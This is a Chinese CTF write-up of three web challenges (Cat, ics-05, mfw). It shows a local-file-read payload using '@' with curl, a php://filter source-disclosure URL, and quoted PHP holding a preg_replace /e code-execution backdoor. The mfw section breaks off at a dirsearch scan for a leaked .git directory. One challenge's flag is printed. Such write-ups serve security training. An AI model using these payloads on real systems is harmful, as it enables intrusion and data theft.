


## 攻防世界Web进阶区

### 0x01. Cat

> * 难度系数 1.0
> * 题目来源： `XCTF 4th-WHCTF-2017 `
> * 题目描述： 抓住那只猫 
> * 题目场景： http://111.198.29.45:43180/ 具体参见攻防世界
> * 题目附件：无

#### 解题思路

1. 尝试提交空域名，返回Invalid Url, 提交题目给出的loli.club，什么也没有反应，但现在观察地址框 http://111.198.29.45:43180/index.php?url=loli.club ， 应该想到可以构造get请求

   

2. 通过尝试应该可以发现，URL后面加：

   >* 正常url, 好像没什么反应，（查看官方writeup，说返回ping结果）
   >* 非法URL(特殊符号)，返回`Invalid URL`
   >* URL编码超过%80，返回Django报错



3. 队报错代码进行代码审计，可以得到有关数据库的相关信息，获得数据库径`/opt/api/database.sqlite3`

   

4. 使用@+文件名来读取本地文件，构造payload：

   ```
   http://111.198.29.45:43180/index.php?url=@/opt/api/database.sqlite3
   ```

   

5. 搜索关键词`ctf` 得到flag， `AWHCTF{yoooo_Such_A_G00D_@}`


#### 附注

官方用`curl`构造payload

``` 
curl 'http://111.198.29.45:43180/index.php?url=@/opt/api/database.sqlite3' | xxd | grep -A 5 -B 5 WHCTF
```

### 0x02.  ics-05

> * 难度系数 1.0
> * 题目来源： ` XCTF 4th-CyberEarth `
> * 题目描述：  其他破坏者会利用工控云管理系统设备维护中心的后门入侵系统 
> * 题目场景：  http://111.198.29.45:43227/  具体参见攻防世界
> * 题目附件：无

#### 解题思路

1. 题目提示是设备维护中心后门，所以打开页面后直接点击设备维护中心菜单进入

   

2. 再点击`云平台设备维护中心`, 发现地址栏url变了，并且页面中出现index字样

   

   

3. 利用`php://filter`伪协议读取页面源码

   ```url
   http://111.198.29.45:31639/index.php?page=php://filter/convert.base64-encode/resource=index.php
   ```

   

4. base64解码后，进行代码审计获取到有用信息

   ``` php
   //方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试
   
   if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {
   
       echo "<br >Welcome My Admin ! <br >";
   
       $pattern = $_GET[pat];
       $replacement = $_GET[rep];
       $subject = $_GET[sub];
   
       if (isset($pattern) && isset($replacement) && isset($subject)) {
           preg_replace($pattern, $replacement, $subject);
       }else{
           die();
       }
   
   }
   ```

   

5. 搜索 subject 中匹配 pattern 的部分， 以 replacement 进行替换。此处明显考察的是preg_replace 函数使用 /e 模式，导致代码执行的问题。也就是说，pat值和sub值相同，rep的代码就会执行。这里的XFF要改成127.0.0.1，GET三个参数进来，这里调用了preg_replace函数。并且没有对pat进行过滤，所以可以传入"/e"触发漏洞,触发后replacement的语句是会得到执行的，首先执行一下phpinfo

### 0x03.  mfw 

> * 难度系数 1.0
> * 题目来源： **csaw-ctf-2016-quals ** 
> * 题目描述： 无
> * 题目场景： http://111.198.29.45:40481/ 具体参见攻防世界
> * 题目附件：无

#### 解题思路

1. 打开页面，查看源码，发现被注释掉的页面flag页面

```css
<div id="navbar" class="collapse navbar-collapse">
		          	<ul class="nav navbar-nav">
		            	<li class="active"><a href="?page=home">Home</a></li>
		            	<li ><a href="?page=about">About</a></li>
		            	<li ><a href="?page=contact">Contact</a></li>
						<!--<li ><a href="?page=flag">My secrets</a></li> -->
		          	</ul>
		        </div>
```

2. 然而构造参数 `http://111.198.29.45:40481/?page=flag`访问并没有什么发现
3. 随便看看，在About页面看到网站有用到Git, 想到Git源码泄露，用`dirsearch`扫一下后台,

```php
python3 dirsearch.py -u http://111.198.29.45:40481/ -e php
```

